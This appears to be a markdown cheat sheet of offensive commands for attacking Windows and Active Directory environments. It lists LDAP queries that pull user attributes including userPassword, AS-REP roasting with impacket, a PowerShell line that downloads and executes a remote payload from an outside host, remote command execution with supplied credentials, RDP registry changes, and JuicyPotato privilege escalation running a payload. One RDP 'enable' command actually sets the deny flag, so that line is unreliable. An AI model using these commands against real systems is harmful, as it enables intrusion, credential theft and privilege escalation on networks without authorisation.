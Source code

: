 # Windows 

## LDAP

```bash
ldapsearch -x -h $target  -s base namingcontexts
```
```bash
ldapsearch -x -h $target -b "$namingcontext" \
                "(&(objectcategory=person)(objectclass=user))" \
                primaryGroupID userPrincipalName sAMAccountName userPassword ufn badPwdcount
```
```bash
impacket-GetNPUsers -dc-ip $taget $domain/ -usersfile users.txt
```

### Decompiler

DotNET

- https://github.com/0xd4d/dnSpy

## Payloads

- https://github.com/samratashok/nishang

## PowerShell

### HTTP Request

```powershell
> IEX (New-Object Net.WebClient).DownloadString('http://192.168.10.1/payload.ps1')
```

### Run encoded command

```powershell
powershell -EncodedCommand BASE64
```

### Create Local credential object

```powershell
> $pass = ConvertTo-SecureString "SecretPassword" -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PsCredential('username', $pass)

```

### Run command as
```powershell
> Invoke-Command -computer HOSTNAME -credential $cred -ScriptBlock { whoami }
```

### Mount share

```powershell
> New-PSDrive -Name "Public" -PSProvider "FileSystem" -Root "\\Server01\Public" -Credential $cred

```

### Enable RDP

```
reg setval -k 'HKLM\System\CurrentControlSet\Control\Terminal Server' -v 'fDenyTSConnections' -d "1"
```

On Windows XP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



## Privilege escalation
### Local checks
- https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1
- https://github.com/GhostPack/SharpUp
- https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS


```
.\winPEAS.exe cmd fast > winPEAS.log
```

### Techniques

**SeImpersonatePrivilege** (Mean juicy potato may works)

- https://github.com/ohpe/juicy-potato

```
.\JuicyPotato.exe -t * -p \users\public\music\payload.run.bat -l 1337 [ {CLSID } || NULL]
```

[CLSID list](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

## Pivot (tunnel)

- https://github.com/jpillora/chisel

# Miscellaneous 

Binaries abuse:
- https://lolbas-project.github.io/ (Windows)

